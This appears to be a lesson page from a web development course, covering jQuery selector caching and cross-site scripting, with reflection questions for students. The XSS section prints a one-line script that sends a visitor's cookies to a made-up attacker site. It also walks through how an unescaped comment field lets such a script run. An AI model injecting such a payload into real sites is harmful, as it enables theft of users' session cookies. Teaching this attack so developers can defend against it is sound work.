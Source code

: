 #### Uncached jQuery Selectors

```js
  $("#myHeader").hide();
  // do some things
  $("#myHeader").show();
```

In the above code, jQuery is searching the entire DOM tree to locate the `#myHeader` twice.

Instead, we should consider caching - storing the reference to the object in a variable.

```js
  var $myHeader = $(“#myHeader”);

  $myHeader.hide();
  // do some things
  $myHeader.show();
```

#### Cross-Site Scripting (XSS) Attack Vulnerability
Cross-site Scripting is when malicious scripts are inserted into the client-side code of a web site or application. You are vulnerable to this kind of attack when you use unvalidated or unencoded user input directly in your site.

Let's say an attacker wants to steal your users' cookies (I can't believe that's a real sentence in web development, but anyway... let's assume)

You could do something like that with this line of code:

```
<script>
  window.location='http://mysweethackingwebsite98736902/?cookie='+document.cookie
</script>
```

Now let's say that in your Blogger app, you take the contents of what someone types in a comment field - store it in the database - and then show it on a page.

Boom. Hacked.

Another example is - maybe you have a store online. Maybe you're selling very expensive t-shirts. Maybe you pull in information like price from the database.

Maybe you then run a sale that takes 10% off of the price and you do your calculation in JavaScript and then change the price on the page.

Maybe then, since you did the calculation in JavaScript, you rely on pulling in the t-shirt's price from the DOM when someone purchases it.

What could go wrong?

__Reflect__
* Did any of the above examples surprise you?
* How often do you think developers make these kinds of 'mistakes' in production code?
* How, other than memorizing flash cards, can you prevent potential bugs that you don't know are possible?

## Student Added Content
